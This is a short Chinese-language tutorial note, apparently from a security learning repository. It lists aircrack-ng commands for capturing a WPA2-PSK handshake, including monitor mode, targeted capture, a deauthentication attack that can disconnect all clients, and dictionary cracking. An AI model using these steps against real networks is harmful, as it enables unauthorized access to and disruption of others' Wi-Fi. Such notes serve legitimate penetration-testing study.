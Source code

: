 获取wpa2-psk 握手包

- 设置无线网卡为监听模式： airmon-ng start wlan0
- 扫描周围WPA2-PSK 加密的无线信号 airodump-ng wlan0mon
- 新开一个终端，抓取握手包 ariodump-ng -c 【CH 】 -w wpa2 wlan0mon 需要指定信道
  也可以指定抓某个AP的包，这有助于我们精确目标
  ` airodump-ng -d 68:77:24:65:EE:CF -c 6 wlan0`
- 等待过程中配合Deauth 攻击，将客户端强制踢下线重新连接，抓取握手包 aireplay-ng -0 5 -a 【BSSID】-c STATION wlan0mon 设置为发起5次攻击，可能会出现信道不同的提示，需要重复执行，如果不选-c 的参数的话，就是把连接在这个AP上的设备统统踢下线
- 等待监控窗口提示 WPA handshaks
- 用ewsa 工具破解握手包（wdindows下）
- 使用aircrack-ng （kali） 对握手包进行暴力破解 `aircrack-ng -a2  -b [bssid] -w [字典]  [抓到的握手包]`

演示：

监听

![1720961800085](image/【12】wifi攻击/1720961800085.png)

deauth攻击抓取握手包

![1721314590772](image/【12】wifi攻击/1721314590772.png)
